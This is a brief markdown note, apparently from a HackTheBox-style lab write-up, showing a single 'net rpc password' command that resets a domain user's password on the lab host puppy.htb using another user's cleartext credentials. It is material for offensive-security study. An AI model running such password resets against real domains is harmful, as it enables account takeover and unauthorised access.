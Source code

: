 # Replace Password from Linux

{% code fullWidth="true" %}
```
net rpc password adam.silver newP@ssword2022 -U 'puppy.htb/ant.edwards%Antman2025!' -S 10.10.11.70
```
{% endcode %}
